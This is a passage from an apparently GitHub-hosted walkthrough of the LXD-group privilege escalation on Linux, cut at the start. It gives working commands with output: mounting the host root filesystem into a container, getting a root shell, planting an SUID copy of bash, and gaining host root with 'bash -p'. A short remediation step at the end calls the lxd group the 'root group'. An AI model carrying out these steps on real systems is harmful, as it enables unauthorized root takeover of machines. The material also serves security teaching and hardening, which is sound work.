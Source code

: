 ```bash
user@pwn:~$ lxc config device add privesc-container mydevice disk source=/ path=/mnt/root recursive=true
Device mydevice added to privesc-container
```

Start the container with the  following:

```bash
user@pwn:~$ lxc start privesc-container
user@pwn:~$ lxc list
+-------------------+---------+--------------------+-----------------------------------------------+-----------+-----------+
|       NAME        |  STATE  |        IPV4        |                     IPV6                      |   TYPE    | SNAPSHOTS |
+-------------------+---------+--------------------+-----------------------------------------------+-----------+-----------+
| privesc-container | RUNNING | 10.94.36.82 (eth0) | fd42:647f:f795:fddf:216:3eff:fea3:bf33 (eth0) | CONTAINER | 0         |
+-------------------+---------+--------------------+-----------------------------------------------+-----------+-----------+
user@pwn:~$ 
```

Execute the container and spawn a bash shell as root:

```bash
user@pwn:~$ lxc exec privesc-container /bin/bash
~ # id
uid=0(root) gid=0(root)
~ # hostname
privesc-container
```

Create a copy of bash and add an SUID bit to the bash executable:

```shell
~ # cp /mnt/root/usr/bin/bash /mnt/root/home/user/bash
~ # chmod u+s /mnt/root/home/user/bash
```

Exit from the container and escalate to the root user:

```bash
/mnt/root # exit
```

Escalate privileges using the SUID bit in the bash binary by passing the `-p` flag:

```shell
user@pwn:~$ /home/user/bash -p
bash-5.0# whoami
root
bash-5.0# hostname
ubuntu
bash-5.0# exit
exit
```

Remove the current user from the root group:

```shell
sudo gpasswd -d user lxd
```

Reboot the system to apply the change:

```shell
reboot
```


